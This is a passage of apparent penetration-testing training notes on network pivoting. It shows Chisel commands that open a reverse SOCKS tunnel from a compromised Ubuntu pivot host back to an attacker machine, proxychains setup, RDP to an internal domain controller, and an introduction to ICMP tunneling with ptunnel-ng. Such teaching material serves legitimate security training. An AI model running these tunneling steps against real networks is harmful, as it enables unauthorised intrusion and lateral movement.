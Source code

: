 **1.** Start the Chisel Server on our attacker machine or attacker host:

```shell-session
#########
# In the attacker machine
#######
sudo ./chisel server --reverse -v -p 1234 --socks5
```


**2.** Then we connect from the Ubuntu (pivot host) to our attacker machine (or attack host), using the option R:socks

```shell-session
#########
# In the Ubuntu compromised machine, our Pivot Host
#######
/chisel client -v 10.10.10.2:1234 R:socks

```

Results:

```shell-session
# client: Connecting to ws://10.10.10.2:1234
# client: Handshaking...
# client: Sending config
# client: Connected (Latency 120.170822ms)
# client: tun: SSH connected
```

**3.** Now we can modify our proxychains.conf file located at /etc/proxychains4.conf and add 1080 port at the end so we can use proxychains to pivot using the created tunnel between the 1080 port and the SSH tunnel.

```shell-session
# Edit the proxychains conf file
sudo nano /etc/proxychains4.conf

# Add the line `socks5 127.0.0.1 1080`
```

**4.** Now if we use proxychains with RDP, we can connect to the DC on the internal network through the tunnel we have created to the Pivot host.

```shell-session
proxychains xfreerdp /v:172.16.5.19 /u:$username /p:$password
```


### ICMP tunneling with SOCKS 

ICMP tunneling encapsulates your traffic within ICMP packets containing echo requests and responses.

**Important:** ICMP tunneling would only work when ping responses are permitted within a firewalled network. 

We will use the [ptunnel-ng](https://github.com/utoni/ptunnel-ng) tool to create a tunnel between our Ubuntu server and our attack host. Once a tunnel is created, we will be able to proxy our traffic through the `ptunnel-ng client`. We can start the `ptunnel-ng server` on the target pivot host.

